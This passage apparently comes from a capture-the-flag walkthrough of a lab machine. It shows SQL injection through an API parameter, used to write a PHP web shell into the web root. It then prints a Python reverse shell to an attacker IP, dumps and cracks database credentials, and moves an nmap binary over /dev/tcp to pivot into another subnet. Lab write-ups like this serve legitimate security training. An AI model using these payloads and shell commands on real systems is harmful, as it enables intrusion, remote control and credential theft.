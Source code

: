 http://10.10.143.101/api.php?documentid=1&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD

This shows us paths to PDF files that we had previously seen. Therefore, to search for SQL injection vulnerabilities, we add a single quote symbol to the URL and review the results obtained.

It appears that the system is vulnerable to SQL injection. We will start manual exploitation of this SQL injection using the following command:

```
http://10.10.143.101/api.php?documentid=1%20union%20select%201,%20%22tryhackme%22,%203%20into%20outfile%20%22../../../../var/www/html/trest.txt%22--%20-&apikey=WEBLhvOJAH8d50Z4y5G5g
```

After executing the command, we can see the generated file at: [http://10.10.143.101/trest.txt](http://10.10.143.101/trest.txt)

This result indicates that we can export files to a server path through SQL statements. We can take advantage of this vulnerability to inject PHP code:

```
http://10.10.143.101/api.php?documentid=1 union select 1, "<?php system($_REQUEST['cmd']); ?>", 3 into outfile "../../../../var/www/html/thm.php"-- -&apikey=WEBLhvOJAH8d50Z4y5G5g
```

Then, in the browser, we can execute the following command to get remote command execution:

[http://10.10.143.101/thm.php?cmd=whoami](http://10.10.143.101/thm.php?cmd=whoami)

This shows that we have achieved remote command execution through SQL injection. Now, our goal is to gain access to the system through a reverse shell. For this, we will use Python Shell from Hack Tools by Ludovic COULON and Riadh B. in the URL and `nc -nlvp 433` on our machine:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.39.16",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
We have gained access to the system and found the flag in the `/var/www` directory.

Now, if we navigate to the directory using the command `cd html`, we can find the `function.php` file, which may contain important information.

Indeed, we have access to the database, so let's see what we find. We enter the database with the command `mysql -u root -p`, then we use `show databases;` Next, we use: `use myfirstwebsite;` Then, we use: `show tables;` After that, we use `describe users;` Finally, we use `select username, password from users;`

We have found the user "billg" and the password that we may be able to crack with john. So, let's let John try to crack the password while we search for more information.

`john --wordlist=rockyou.txt hash`

Upon reviewing the network segments, we see another IP, so we will analyze it using nmap. For this, we need to download the nmap static binary and upload it to the server. On our machine, we set up a listener with `nc -nlvp 443 < nmap` On the victim's server, we use `cat > nmap < /dev/tcp/ipattacker/443`

Now that we have nmap:
```
nmap -sn 172.16.1.10/24
```
